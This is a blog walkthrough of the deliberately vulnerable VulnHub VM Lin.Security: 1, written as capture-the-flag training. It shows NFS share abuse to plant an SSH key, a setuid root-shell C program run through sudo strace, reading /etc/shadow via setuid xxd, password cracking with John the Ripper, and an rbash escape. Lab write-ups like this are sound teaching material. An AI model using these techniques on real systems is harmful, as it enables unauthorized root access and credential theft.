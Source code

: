 ```yaml
---
layout: post
date: 2018-08-18 13:12:15 +0000
title: "Lin.Security: 1 Walkthrough"
subtitle: "Not Too Secure"
category: Walkthrough
tags: [VulnHub, Lin.Security]
comments: true
image:
  feature: lin.security-1-walkthrough.jpg
  credit: aitoff / Pixabay
  creditlink: https://pixabay.com/en/rope-frayed-old-coiled-strand-2189420/
---
```


This post documents the complete walkthrough of Lin.Security: 1 a boot2root [VM][1] created by [in.security][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

Here at in.security we wanted to develop a Linux virtual machine that is based, at the time of writing, on an up-to-date Ubuntu distro (18.04 LTS), but suffers from a number of vulnerabilities that allow a user to escalate to `root` on the box. This has been designed to help understand how certain built-in applications and services if misconfigured, may be abused by an attacker.

We have configured the box to simulate real-world vulnerabilities (albeit on a single host) which will help you to perfect your local privilege escalation skills, techniques and toolsets. There are a number challenges which range from fairly easy to intermediate level and we’re excited to see the methods you use [sic] to solve them!

### Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 7a:9b:b9:32:6f:95:77:10:c0:a0:80:35:34:b1:c0:00 (RSA)
|   256 24:0c:7a:82:78:18:2d:66:46:3b:1a:36:22:06:e1:a1 (ECDSA)
|_  256 b9:15:59:78:85:78:9e:a5:e6:16:f6:cf:96:2d:1d:36 (ED25519)
111/tcp   open  rpcbind  syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  3           2049/udp  nfs
|   100003  3,4         2049/tcp  nfs
|   100005  1,2,3      41225/tcp  mountd
|   100005  1,2,3      44576/udp  mountd
|   100021  1,3,4      38947/tcp  nlockmgr
|   100021  1,3,4      59622/udp  nlockmgr
|   100227  3           2049/tcp  nfs_acl
|_  100227  3           2049/udp  nfs_acl
2049/tcp  open  nfs_acl  syn-ack ttl 64 3 (RPC #100227)
38947/tcp open  nlockmgr syn-ack ttl 64 1-4 (RPC #100021)
41225/tcp open  mountd   syn-ack ttl 64 1-3 (RPC #100005)
41683/tcp open  mountd   syn-ack ttl 64 1-3 (RPC #100005)
51813/tcp open  mountd   syn-ack ttl 64 1-3 (RPC #100005)
```

`nmap` finds `22/tcp` and `111/tcp` open. I don't see the usual `80/tcp`, which is unfortunate. We have to rely on other means to gain a foothold into the VM.

### Network File System

Good thing for us, NFS is available. Using `showmount`, we can display the exports on the VM.

```
# showmount -e 192.168.30.129
Export list for 192.168.30.129:
/home/peter *
```

Let's mount the remote directory.

```
# mkdir -p /mnt/peter
# mount -t nfs 192.168.30.129:/home/peter /mnt/peter
# ls -la /mnt/peter
total 32
drwxr-xr-x 5 1001 1005 4096 Jul 10 19:49 .
drwxr-xr-x 4 root root 4096 Aug 18 11:11 ..
-rw-r--r-- 1 1001 1005  220 Jul  9 19:53 .bash_logout
-rw-r--r-- 1 1001 1005 3771 Jul  9 19:53 .bashrc
drwx------ 2 1001 1005 4096 Jul 10 10:04 .cache
-rw-rw-r-- 1 1001 1005    0 Jul 10 10:04 .cloud-locale-test.skip
drwx------ 3 1001 1005 4096 Jul 10 10:04 .gnupg
drwxrwxr-x 3 1001 1005 4096 Jul 10 08:03 .local
-rw-r--r-- 1 1001 1005  807 Jul  9 19:53 .profile
```

Now that I've mapped `/home/peter` to `/mnt/peter`, let's see if I create `.ssh` directory in `/home/peter`.

```
# mkdir -p /mnt/peter/.ssh
mkdir: cannot create directory ‘/mnt/peter/.ssh’: Permission denied
```

Hmm. Even when I'm `root`? Let's create a fake `peter` account with an UID of `1001` on my machine.

```
# useradd -u 1001 peter
# su peter
$ cd /mnt/peter
$ mkdir .ssh
```

Awesome. Now, I can put the SSH public key I control into `/home/peter/.ssh/authorized_keys`.

First, we generate the SSH Key pair on my machine.

```
# ssh-keygen -t rsa -b 2048
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): peter
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in peter.
Your public key has been saved in peter.pub.
The key fingerprint is:
SHA256:TuGkIRfE6ODlItT4jp9ILW/8oGRTEa7JLCDI5dgKnMs root@kali
The key's randomart image is:
+---[RSA 2048]----+
|  oo +o          |
|+oO.+ ..         |
|**.X. o o        |
|O B.+o = .       |
|.E+o  . S        |
|.+.o   o         |
|.+*..   .        |
|o.o*.            |
| .. ..           |
+----[SHA256]-----+
```

Next, we copy and paste the contents of `peter.pub` to `/mnt/peter/.ssh/authorized_keys`.

```
$ echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC1rYFvo6Wh4j44p4s6WfDYb637m62zA0CwE5t9K6iKbosZMpeDBGP2q8C2O3yw2P9Dhv3jRPCutf1ruadaMxxiOY8Ook/3fwMcaueCAs0ThKCMRlnf0yzUnEHH7t82MrEghMnL4GfUcYlxIwo8d5jQe7umuJneYK786iDNEPaEajC45GQlrZWCzIWqs3B3vJBQ4FR766EHsmiKVWvQ35uR69/O39IePJQ8oSTF+PK0RoCtvmYt44jeqUO0NfYGeCGwqtYW/i+ILTOkW45bYRVjhmrJ2C+yjtK3bsmDiq28IT9STCFlkI7OqEfJkeYqBSJVqVqOkFFvx4+7fyTpchT/ > /mnt/peter/.ssh/authorized_keys
```

Open another `terminal` and log in to `peter`'s account with the SSH private key.

![peter](/assets/images/posts/lin.security-1-walkthrough/228fe4f8.png)

### Privilege Escalation

During enumeration of `peter`'s account, I found something interesting.

![sudo](/assets/images/posts/lin.security-1-walkthrough/1fc14ac6.png)

`peter` is able to `sudo` as `root` for `/usr/bin/strace`, used for tracing system calls and signals.

Holy cow. This means that I can do something like this—write a privilege escalation program and run it through `strace` with the blessing of `sudo`—all without password.

<div class="filename"><span>root.c</span></div>

```c
#include <stdlib.h>
#include <unistd.h>

int main() {
  setuid(0);
  setgid(0);
  system("/bin/bash");
}
```

Let's give it a shot.

![root](/assets/images/posts/lin.security-1-walkthrough/fe6a2b56.png)

:dancer:

### Afterthought

There's more than one way of becoming `root`. The most obvious way is to log in with `bob:secret` as suggested by in.security.

![bob](/assets/images/posts/lin.security-1-walkthrough/367b19d3.png)

Display `/etc/passwd`. Observe `insecurity` has its password hash in it and has `root` privileges

![/etc/passwd](/assets/images/posts/lin.security-1-walkthrough/a135634c.png)

We can copy that line and send it to **John the Ripper** for offline cracking like this.

```
# john --format=crypt --show hash.txt
insecurity:P@ssw0rd:0:0::/:/bin/sh

1 password hash cracked, 0 left
```

Another way is to discover `susan`'s password in her home directory either through `bob`'s account or `peter`'s account described above.

![susan](/assets/images/posts/lin.security-1-walkthrough/c1174f4d.png)

You'll soon notice that `susan` is using `rbash` or restricted `bash`. It's almost trivial to escape from `rbash`—execute `bash -i`.

Now that we have escaped the restricted shell, something caught my eye while I was performing enumeration on `susan`'s account.

![xxd](/assets/images/posts/lin.security-1-walkthrough/e2d6c4d0.png)

`xxd` can display the hexdump or convert to hexadecimal representation (through `-p`) of any file it has read permissions. Since `xxd` is `setuid` to `root`, we can use it to read `/etc/shadow` like so.

![/etc/shadow](/assets/images/posts/lin.security-1-walkthrough/72640ded.png)

We can copy both `/etc/passwd` and `/etc/shadow` to our attacking machine for offline cracking with **John the Ripper**, in which case the `root` password is `secret123`.

```
# john --format=crypt --show hashes.txt
root:secret123:0:0:root:/root:/bin/bash
bob:secret:1000:1004:bob:/home/bob:/bin/bash
insecurity:P@ssw0rd:0:0::/:/bin/sh

3 password hashes cracked, 2 left
```

I'm sure this is not exhaustive. Kudos to [in.security](https://in.security/) for creating this VM. No better way to learn than hands-on practice.

[1]: https://www.vulnhub.com/entry/linsecurity-1,244/
[2]: https://twitter.com/@insecurity_ltd
[3]: https://www.vulnhub.com/
